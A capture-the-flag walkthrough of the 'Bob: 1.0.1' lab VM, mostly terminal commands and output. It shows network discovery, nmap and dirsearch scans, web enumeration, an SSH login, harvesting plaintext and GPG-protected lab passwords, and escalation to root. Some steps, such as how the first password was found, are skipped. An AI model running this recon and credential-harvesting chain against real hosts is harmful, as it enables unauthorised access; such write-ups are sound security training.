

#### Bob: 1.0.1

- [Attacker Info](#attacker-info)
- [Identify Victim](#identify-victim)
- [Nmap Scan](#nmap-scan)
- [Dirsearch](#dirsearch)
- [Web Enumeration](#web-enumeration)
- [Shell Access](#shell-access)
- [Privilege Escalation](#privilege-escalation)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.8  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 350146  bytes 269073770 (256.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 426777  bytes 50240710 (47.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 96  bytes 18392 (17.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 96  bytes 18392 (17.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Identify Victim

```sh
root@kali:~# netdiscover
 Currently scanning: 192.168.17.0/16   |   Screen View: Unique Hosts

 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.1     a0:63:91:f0:cc:4b      1      60  NETGEAR
 192.168.1.5     f4:0f:24:33:5e:d1      1      60  Apple, Inc.
 192.168.1.9     00:0c:29:03:d8:4d      1      60  VMware, Inc.

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/bob# nmap -sV -sC -oA robot.nmap 192.168.1.9 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-23 13:49 EDT
Nmap scan report for 192.168.1.9
Host is up (0.00034s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 4 disallowed entries
| /login.php /dev_shell.php /lat_memo.html
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
25468/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey:
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
|_  256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
MAC Address: 00:0C:29:03:D8:4D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
root@kali:~/bob#
```

```
http://192.168.1.9/
```


###### Dirsearch

```sh
root@kali:~/bob# /opt/dirsearch/dirsearch.py --url http://192.168.1.9 -e php -x 301,302,403

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 10 | Wordlist size: 5963

Error Log: /opt/dirsearch/logs/errors-18-05-23_16-18-43.log

Target: http://192.168.1.9

[16:18:43] Starting:
[16:18:52] 200 -    1KB - /index.html
[16:18:53] 200 -    2KB - /login.html
[16:18:55] 200 -  673B  - /passwords.html
[16:18:57] 200 -  111B  - /robots.txt

Task Completed
root@kali:~/bob#
```

###### Web Enumeration

```sh
root@kali:~/bob# curl http://192.168.1.9/robots.txt
User-agent: *
Disallow: /login.php
Disallow: /dev_shell.php
Disallow: /lat_memo.html
Disallow: /passwords.html
root@kali:~/bob#
```

```sh
root@kali:~/bob# curl http://192.168.1.9/passwords.html
<!-- N.T.S Get Sticky Notes to Write Passwords in
-Bob
-->
<!--

-=====Passwords:==-<!
=======-
-->
<!--
-=====WEBSHELL=======-
-->
<!--p
-->
<!--
-====================-

 -->
<html>
<body>
  Really who made this file at least get a hash of your password to display,
  hackers can't do anything with a hash, this is probably why we had a security
  breach in the first place. Comeon
  people this is basic 101 security! I have moved the file off the server. Don't make me have to clean up the mess everytime
  someone does something as stupid as this. We will have a meeting about this and other
  stuff I found on the server. >:(
<br>
  -Bob
  </fieldset>
</body>
</html>
root@kali:~/bob#
```

```
http://192.168.1.9/lat_memo.html
http://192.168.1.9/dev_shell.php
```





###### Shell Access

```sh
root@kali:~/bob# ssh jc@192.168.1.9 -p 25468
The authenticity of host '[192.168.1.9]:25468 ([192.168.1.9]:25468)' can't be established.
ECDSA key fingerprint is SHA256:6836S02YTRSutf2d8Ay4p5JZKyLjfVMb0O0h4FdycQM.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.1.9]:25468' (ECDSA) to the list of known hosts.
  __  __ _ _ _                        _____
 |  \/  (_) | |                      / ____|
 | \  / |_| | |__  _   _ _ __ __ _  | (___   ___ _ ____   _____ _ __
 | |\/| | | | '_ \| | | | '__/ _` |  \___ \ / _ \ '__\ \ / / _ \ '__|
 | |  | | | | |_) | |_| | | | (_| |  ____) |  __/ |   \ V /  __/ |
 |_|  |_|_|_|_.__/ \__,_|_|  \__, | |_____/ \___|_|    \_/ \___|_|
                              __/ |
                             |___/


jc@192.168.1.9's password:
Linux Milburg-High 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jc@Milburg-High:~$ sudo -l
sudo: unable to resolve host Milburg-High
Matching Defaults entries for jc on Milburg-High:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jc may run the following commands on Milburg-High:
    (ALL) NOPASSWD: /usr/bin/service apache2 *
    (root) NOPASSWD: /bin/systemctl start ssh
jc@Milburg-High:~$
jc@Milburg-High:~$ ls -lah
total 108K
drwxr-xr-x 15 jc   jc   4.0K May 23 16:53 .
drwxr-xr-x  6 root root 4.0K Mar  4 13:45 ..
-rw-------  1 jc   jc    251 May 23 16:53 .bash_history
-rw-r--r--  1 jc   jc    220 Feb 27 18:01 .bash_logout
-rw-r--r--  1 jc   jc   3.5K Feb 27 18:01 .bashrc
drwxr-xr-x  7 jc   jc   4.0K Feb 27 18:20 .cache
drwx------  7 jc   jc   4.0K Feb 27 18:20 .config
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:17 Desktop
-rw-r--r--  1 jc   jc     55 Feb 27 18:17 .dmrc
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:17 Documents
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:20 Downloads
drwx------  3 jc   jc   4.0K Feb 27 18:17 .gnupg
-rw-------  1 jc   jc      0 Feb 27 18:20 .ICEauthority
drwxr-xr-x  3 jc   jc   4.0K Feb 27 18:17 .local
drwx------  4 jc   jc   4.0K Feb 27 18:17 .mozilla
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:17 Music
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:17 Pictures
-rw-r--r--  1 jc   jc    675 Feb 27 18:01 .profile
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:17 Public
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:17 Templates
drwxr-xr-x  2 jc   jc   4.0K Feb 27 18:17 Videos
-rw-------  1 jc   jc     55 Feb 27 18:17 .Xauthority
-rw-r--r--  1 jc   jc    14K Feb 27 18:20 .xfce4-session.verbose-log
-rw-------  1 jc   jc   4.2K Feb 27 18:20 .xsession-errors
jc@Milburg-High:~$ cd /home/bob/
jc@Milburg-High:/home/bob$ ls -lah
total 172K
drwxr-xr-x 18 bob  bob  4.0K Mar  8 23:31 .
drwxr-xr-x  6 root root 4.0K Mar  4 13:45 ..
-rw-------  1 bob  bob  6.3K Mar  8 23:48 .bash_history
-rw-r--r--  1 bob  bob   220 Feb 21 18:10 .bash_logout
-rw-r--r--  1 bob  bob  3.5K Mar  5 01:14 .bashrc
drwxr-xr-x  7 bob  bob  4.0K Feb 21 18:15 .cache
drwx------  8 bob  bob  4.0K Feb 27 17:56 .config
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Desktop
-rw-r--r--  1 bob  bob    55 Feb 21 18:22 .dmrc
drwxr-xr-x  3 bob  bob  4.0K Mar  5 01:02 Documents
drwxr-xr-x  3 bob  bob  4.0K Mar  8 23:33 Downloads
drwxr-xr-x  2 bob  bob  4.0K Feb 21 19:48 .ftp
drwx------  3 bob  bob  4.0K Mar  5 00:45 .gnupg
-rw-------  1 bob  bob  2.0K Mar  8 23:31 .ICEauthority
drwxr-xr-x  3 bob  bob  4.0K Feb 21 18:13 .local
drwx------  4 bob  bob  4.0K Feb 21 18:13 .mozilla
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Music
drwxr-xr-x  2 bob  bob  4.0K Mar  4 14:03 .nano
-rw-r--r--  1 bob  bob    72 Mar  5 04:12 .old_passwordfile.html
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Pictures
-rw-r--r--  1 bob  bob   675 Feb 21 18:10 .profile
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Public
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Templates
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Videos
drwx------  2 bob  bob  4.0K Mar  5 02:45 .vnc
-rw-------  1 bob  bob   214 Mar  8 23:48 .Xauthority
-rw-r--r--  1 bob  bob   25K Mar  8 23:31 .xfce4-session.verbose-log
-rw-r--r--  1 bob  bob   27K Mar  7 21:32 .xfce4-session.verbose-log.last
-rw-------  1 bob  bob  3.6K Mar  8 23:48 .xsession-errors
-rw-------  1 bob  bob  2.8K Mar  7 21:32 .xsession-errors.old
jc@Milburg-High:/home/bob$ cd Documents/
jc@Milburg-High:/home/bob/Documents$ ls -lah
total 20K
drwxr-xr-x  3 bob bob 4.0K Mar  5 01:02 .
drwxr-xr-x 18 bob bob 4.0K Mar  8 23:31 ..
-rw-r--r--  1 bob bob   91 Mar  5 00:58 login.txt.gpg
drwxr-xr-x  3 bob bob 4.0K Mar  5 00:35 Secret
-rw-r--r--  1 bob bob  300 Mar  4 14:11 staff.txt
jc@Milburg-High:/home/bob/Documents$ cd Secret/
jc@Milburg-High:/home/bob/Documents/Secret$ ls -lah
total 12K
drwxr-xr-x 3 bob bob 4.0K Mar  5 00:35 .
drwxr-xr-x 3 bob bob 4.0K Mar  5 01:02 ..
drwxr-xr-x 4 bob bob 4.0K Mar  5 00:39 Keep_Out
jc@Milburg-High:/home/bob/Documents/Secret$ cd Keep_Out/
Not_Porn/ Porn/
jc@Milburg-High:/home/bob/Documents/Secret$ cd Keep_Out/Not_Porn/
jc@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn$ ls -lah
total 12K
drwxr-xr-x 3 bob bob 4.0K Mar  5 04:43 .
drwxr-xr-x 4 bob bob 4.0K Mar  5 00:39 ..
drwxr-xr-x 2 bob bob 4.0K Mar  5 00:50 No_Lookie_In_Here
jc@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn$ cd No_Lookie_In_Here/
jc@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ ls -lah
total 12K
drwxr-xr-x 2 bob bob 4.0K Mar  5 00:50 .
drwxr-xr-x 3 bob bob 4.0K Mar  5 04:43 ..
-rwxr-xr-x 1 bob bob  438 Mar  5 00:50 notes.sh
jc@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ vi notes.sh
```


```sh
jc@Milburg-High:/home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here$ cd ../../../../../
jc@Milburg-High:/home/bob$ vi .old_passwordfile.html
```


```
seb:T1tanium_Pa$$word_Hack3rs_Fear_M3
```

```sh
jc@Milburg-High:/home/bob$ su seb
Password:
seb@Milburg-High:/home/bob$ ls -lah
total 172K
drwxr-xr-x 18 bob  bob  4.0K Mar  8 23:31 .
drwxr-xr-x  6 root root 4.0K Mar  4 13:45 ..
-rw-------  1 bob  bob  6.3K Mar  8 23:48 .bash_history
-rw-r--r--  1 bob  bob   220 Feb 21 18:10 .bash_logout
-rw-r--r--  1 bob  bob  3.5K Mar  5 01:14 .bashrc
drwxr-xr-x  7 bob  bob  4.0K Feb 21 18:15 .cache
drwx------  8 bob  bob  4.0K Feb 27 17:56 .config
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Desktop
-rw-r--r--  1 bob  bob    55 Feb 21 18:22 .dmrc
drwxr-xr-x  3 bob  bob  4.0K Mar  5 01:02 Documents
drwxr-xr-x  3 bob  bob  4.0K Mar  8 23:33 Downloads
drwxr-xr-x  2 bob  bob  4.0K Feb 21 19:48 .ftp
drwx------  3 bob  bob  4.0K Mar  5 00:45 .gnupg
-rw-------  1 bob  bob  2.0K Mar  8 23:31 .ICEauthority
drwxr-xr-x  3 bob  bob  4.0K Feb 21 18:13 .local
drwx------  4 bob  bob  4.0K Feb 21 18:13 .mozilla
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Music
drwxr-xr-x  2 bob  bob  4.0K Mar  4 14:03 .nano
-rw-r--r--  1 bob  bob    72 Mar  5 04:12 .old_passwordfile.html
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Pictures
-rw-r--r--  1 bob  bob   675 Feb 21 18:10 .profile
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Public
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Templates
drwxr-xr-x  2 bob  bob  4.0K Feb 21 18:13 Videos
drwx------  2 bob  bob  4.0K Mar  5 02:45 .vnc
-rw-------  1 bob  bob   214 Mar  8 23:48 .Xauthority
-rw-r--r--  1 bob  bob   25K Mar  8 23:31 .xfce4-session.verbose-log
-rw-r--r--  1 bob  bob   27K Mar  7 21:32 .xfce4-session.verbose-log.last
-rw-------  1 bob  bob  3.6K Mar  8 23:48 .xsession-errors
-rw-------  1 bob  bob  2.8K Mar  7 21:32 .xsession-errors.old
seb@Milburg-High:/home/bob$ id
uid=1003(seb) gid=1003(seb) groups=1003(seb),100(users)
seb@Milburg-High:/home/bob$
```

###### Privilege Escalation

```sh
root@kali:~# python
Python 2.7.14+ (default, Mar 13 2018, 15:23:44)
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "Harpocrates".upper()
'HARPOCRATES'
>>>
```

```sh
seb@Milburg-High:/home/bob$ id
uid=1003(seb) gid=1003(seb) groups=1003(seb),100(users)
seb@Milburg-High:/home/bob$
seb@Milburg-High:/home/bob$ cd Documents/
seb@Milburg-High:/home/bob/Documents$ ls -lah
total 20K
drwxr-xr-x  3 bob bob 4.0K Mar  5 01:02 .
drwxr-xr-x 18 bob bob 4.0K Mar  8 23:31 ..
-rw-r--r--  1 bob bob   91 Mar  5 00:58 login.txt.gpg
drwxr-xr-x  3 bob bob 4.0K Mar  5 00:35 Secret
-rw-r--r--  1 bob bob  300 Mar  4 14:11 staff.txt
seb@Milburg-High:/home/bob/Documents$ gpg --batch --passphrase HARPOCRATES -d login.txt.gpg
gpg: keybox '/home/seb/.gnupg/pubring.kbx' created
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
seb@Milburg-High:/home/bob/Documents$ su
Password:
root@Milburg-High:/home/bob/Documents# cd /
root@Milburg-High:/# ls -lah
total 88K
drwxr-xr-x  22 root root 4.0K Mar  5 04:50 .
drwxr-xr-x  22 root root 4.0K Mar  5 04:50 ..
drwxr-xr-x   2 root root 4.0K Feb 21 15:38 bin
drwxr-xr-x   3 root root 4.0K Feb 21 15:43 boot
drwxr-xr-x  18 root root 3.1K May 23 06:42 dev
drwxr-xr-x 114 root root 4.0K May 23 06:42 etc
-rw-------   1 root root  335 Mar  5 04:50 flag.txt
drwxr-xr-x   6 root root 4.0K Mar  4 13:45 home
lrwxrwxrwx   1 root root   29 Feb 21 15:16 initrd.img -> boot/initrd.img-4.9.0-4-amd64
lrwxrwxrwx   1 root root   29 Feb 21 15:16 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
drwxr-xr-x  15 root root 4.0K Feb 21 15:40 lib
drwxr-xr-x   2 root root 4.0K Feb 21 15:14 lib64
drwx------   2 root root  16K Feb 21 15:14 lost+found
drwxr-xr-x   3 root root 4.0K Feb 21 15:14 media
drwxr-xr-x   2 root root 4.0K Feb 21 15:14 mnt
drwxr-xr-x   2 root root 4.0K Feb 21 15:14 opt
dr-xr-xr-x 165 root root    0 May 23 06:42 proc
drwx------  16 root root 4.0K Feb 28 19:07 root
drwxr-xr-x  22 root root  660 May 23 16:53 run
drwxr-xr-x   2 root root 4.0K Feb 21 15:43 sbin
drwxr-xr-x   3 root root 4.0K Mar  4 13:42 srv
dr-xr-xr-x  13 root root    0 May 23 06:42 sys
drwxrwxrwt  10 root root 4.0K May 23 16:59 tmp
drwxr-xr-x  10 root root 4.0K Feb 21 15:14 usr
drwxr-xr-x  12 root root 4.0K Feb 28 19:03 var
lrwxrwxrwx   1 root root   26 Feb 21 15:16 vmlinuz -> boot/vmlinuz-4.9.0-4-amd64
lrwxrwxrwx   1 root root   26 Feb 21 15:16 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
root@Milburg-High:/# cat flag.txt
CONGRATS ON GAINING ROOT

        .-.
       (   )
        |~|       _.--._
        |~|~:'--~'      |
        | | :   #root   |
        | | :     _.--._|
        |~|~`'--~'
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
   _____|_|_________ Thanks for playing ~c0rruptedb1t
root@Milburg-High:/#
```